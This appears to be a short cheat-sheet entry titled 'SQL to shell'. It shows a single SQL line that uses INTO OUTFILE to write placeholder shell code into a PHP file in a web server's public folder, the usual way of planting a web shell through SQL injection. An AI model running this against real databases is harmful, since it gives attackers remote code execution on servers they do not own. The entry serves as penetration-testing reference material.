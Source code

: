 # SQL to shell

## INTO OUTFILE

``` 
select 'SHELLCODE' INTO OUTFILE '/path/to/public/folder/shell.php';
```